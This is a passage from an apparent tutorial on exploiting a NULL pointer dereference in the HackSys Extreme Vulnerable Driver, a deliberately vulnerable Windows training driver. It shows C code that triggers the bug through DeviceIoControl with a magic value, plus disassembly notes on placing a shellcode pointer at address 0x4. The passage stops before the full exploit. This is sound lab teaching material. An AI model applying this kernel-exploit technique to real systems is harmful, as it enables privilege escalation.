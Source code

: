 		NULL);											//hTemplateFile - Optional, only used when creating a new file - takes a handle to a template file which defineds various attributes for the file being created.

	if (hDriver == INVALID_HANDLE_VALUE) {
		printf("Failed to get device handle :( 0x%X\r\n", GetLastError());
		return 1;
	}

	printf("Got the device Handle: 0x%X\r\n", hDriver);

	printf("Triggering bug\n");

	DeviceIoControl(hDriver,
		HACKSYS_EVD_IOCTL_NULL_POINTER_DEREFERENCE,
		NULL,
		0,
		NULL, //No output buffer - we don't even know if the driver gives output #yolo.
		0,
		&lpBytesReturned,
		NULL); //No overlap

	printf("Exploit complete, cleaning up\n");
	CloseHandle(hDriver);
	return 0;
}
</pre>
We build and then run the code annnnnd nothing happens, I guess we should take a look at the driver in IDA. Navigating to the function which implements the NULL Pointer IOCTL handler we see the following:
![](https://raw.githubusercontent.com/sam-b/HackSysDriverExploits/master/screenshots/null_pointer_check.PNG)
Here we can see the driver checks if the passed buffer contains a magic value, if it does then the 'xor esi,esi' instruction is executed. This means that when the instruction 'call dword ptr [esi+4]' is executed then the address 0x4 is called as a function, this is where we will place a pointer to our shellcode.

![](https://raw.githubusercontent.com/sam-b/HackSysDriverExploits/master/screenshots/null_pointer_trigger.PNG)
Lets update our code to pass it the magic value and see what happens. First we add the magic value as a variable: 
<pre>
ULONG targetVal = 0xBAADF00D; //From the driver assembly - used as a magic value to decide if a null pointer dereference occurs or not.
</pre>
Next we update the DeviceIoControl to pass it to the driver:
<pre>
DeviceIoControl(hDriver,
		HACKSYS_EVD_IOCTL_NULL_POINTER_DEREFERENCE,
		(LPVOID)&targetVal,
		sizeof(LPVOID),
		NULL, //No output buffer - we don't even know if the driver gives output #yolo.
		0,
		&lpBytesReturned,
		NULL); //No overlap
</pre>
After rebuilding the code and then running it, again nothing happens. This is because the drivers exception handling is dealing with the Null pointer dereference, so we're going to have to create a full exploit. The process for exploiting a Null pointer dereference is:
